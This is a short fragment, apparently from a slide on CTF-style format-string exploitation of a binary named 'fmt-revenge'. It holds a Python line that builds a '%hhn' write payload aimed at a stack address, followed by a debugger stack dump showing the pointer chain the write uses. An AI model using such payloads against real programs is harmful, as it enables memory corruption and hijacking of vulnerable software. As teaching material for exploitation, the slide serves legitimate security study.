

p = 0x7ffeb488bd78
fmt('%{}c%5$hhn'.format(p))
0000| 0x7ffeb488bd50 --> 0x7ffeb488bd60 --> 0x7ffeb488bd78 --> 0x7fa066ef8b97 (<__libc_start_main+231>: mov    edi,eax)
0008| 0x7ffeb488bd58 --> 0x40057d (<vuln+41>:   jmp    0x400558 <vuln+4>)
0016| 0x7ffeb488bd60 --> 0x7ffeb488bd78 --> 0x7fa066ef8b97 (<__libc_start_main+231>:    mov    edi,eax)
0024| 0x7ffeb488bd68 --> 0x40058d (<main+14>:   mov    eax,0x0)
0032| 0x7ffeb488bd70 --> 0x601018 --> 0x7fa066f3c180 (<__GI___dprintf>: sub    rsp,0xd8)
0040| 0x7ffeb488bd78 --> 0x7fa066ef8b97 (<__libc_start_main+231>:       mov    edi,eax)
0048| 0x7ffeb488bd80 --> 0x1
0056| 0x7ffeb488bd88 --> 0x7ffeb488be58 --> 0x7ffeb488c2bf ("./fmt-revenge")